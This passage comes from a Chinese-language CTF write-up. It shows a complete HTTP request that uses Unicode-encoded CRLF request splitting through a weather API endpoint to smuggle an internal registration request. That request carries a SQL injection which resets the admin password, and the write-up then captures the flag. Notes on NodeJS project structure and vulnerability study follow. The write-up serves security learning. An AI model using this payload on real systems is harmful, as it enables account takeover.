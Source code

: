        {"error":"Could not find whatever or CN"}
       ```

     * 查看本地SQLite，admin的密码成功修改

       ![image-20210518200121427](https://monkeydatabase.github.io/img/image-20210518200121427.png)

     * 攻击成功

   * 对线上环境发起拆分攻击

     * 请求体为

       ```http
       POST /api/weather HTTP/1.1
       Host: IP:Port
       User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
       Accept: */*
       Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
       Content-Type: application/json
       Content-Length: 446
       Connection: close
       
       {"endpoint":"127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:127.0.0.1\u010D\u010AContent-Type:application/x-www-form-urlencoded\u010D\u010AContent-Length:95\u010D\u010A\u010D\u010Ausername=admin&password=23333')on CONFLICT(username)\u0120do\u0120UPDATE\u0120SET\u0120password='233';--\u0120\u010D\u010A\u010D\u010AGET\u0120/?whatever=","city":"whatever","country":"CN"}
       ```

     * 在网页登陆，获得flag:HTB{w3lc0m3_t0_th3_p1p3_dr34m}

## 独立思考

### 1、NodeJS项目的框架是什么样的？

* package.json：类似于Maven的pom.xml，同时声明了程序的入口点
* public：存放image、css、js等需要返给前端的静态文件
* routes：存放路由文件
* views：存放视图文件
* node_modules：存放package.json中声明的依赖包。执行`npm install`之后npm会根据package.json下载依赖并将其存储在当前目录的node_modules下，如果不存在该目录则自动创建

### 2、如何快速理解NodeJS工程？

* 业务上：NodeJS、PHP、Java、Go、Python等后端基本上都是相通的，都是对外提供接口、对数据库CRUD、调用其它服务的接口。只要熟悉后端的常规流程，就可以对各种语言的后端程序快速理顺。
* 特性上：各个语言有自己的特性，例如Java需要Runtime.getRuntime.exec()执行系统指令、PHP的双引号可以对内部变量进行访存取值、Javascript的原型链污染攻击、Python的模板注入漏洞等。各个语言独有的魔术方法对于寻找调用链往往有事半功倍的效果。
* 版本上：由本题带来的最大的收获是注意当前服务器软件是否有哪些已知的漏洞，CTF不应该仅仅是脑筋急转弯，而应该与生产中的场景相结合。
* 经验上：需要经常关注相关的漏洞，尝试去寻找漏洞的原理，复现漏洞，总结经验。

### 3、哪些属性可以伪装源ip？为什么？
